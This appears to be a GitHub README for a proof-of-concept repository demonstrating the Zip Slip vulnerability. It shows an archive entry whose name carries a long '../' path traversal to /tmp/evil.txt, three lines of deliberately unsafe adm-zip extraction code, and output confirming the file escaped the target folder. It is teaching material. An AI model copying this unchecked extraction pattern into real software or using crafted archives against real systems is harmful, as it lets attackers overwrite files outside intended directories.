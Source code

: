# zip-slip poc

This repo demonstrates the Zip Slip vulnerability using very few lines of code.  


## Exploit File

Inside the zipped folder we have two files, one is just named `good.txt` and the other has a ridiculous path traversal in its name.

```
Listing archive: zip-slip.zip

--
Path = zip-slip.zip
Type = zip
Physical Size = 545

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-04-15 13:04:29 .....           19           19  good.txt
2018-04-15 22:04:42 .....           20           20  ../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../../tmp/evil.txt
------------------- ----- ------------ ------------  ------------------------
2018-04-15 22:04:42                 39           39  2 files

```



## How It Works

You can perform the exploit by running the application using the following commands:

```
npm install
node index.js
```

Inside of `index.js` there are only three lines of code (shown below). The sole purpose of this application is doing is taking the `zip-slip.zip` and extracting the files to the folder `/tmp/safe`. In fact, after you run the `node index.js` command, the application has been run and the exploit was executed.

```
var AdmZip = require('adm-zip');
var zip = new AdmZip("./zip-slip.zip");
zip.extractAllTo("/tmp/safe");
```

When extracting the `good.txt` file it is simply extracted to the `/tmp/safe` directory. However, when extracting the `evil.txt` the path traversal in the name actually extracts it _outside of the `/tmp/safe` directory!_


## Testing the Exploit

After running the application above, verifying it worked is simple.

```
$ ls -al /tmp/*
-rw-rw-rw-  1 user        wheel  20 Nov 14 00:16 /tmp/evil.txt

/tmp/safe:
total 8
drwxr-xr-x  3 user        wheel   96 Nov 14 00:16 .
drwxrwxrwt  6 root        wheel  192 Nov 14 00:16 ..
-rw-rw-rw-  1 user        wheel   19 Nov 14 00:16 good.txt
```
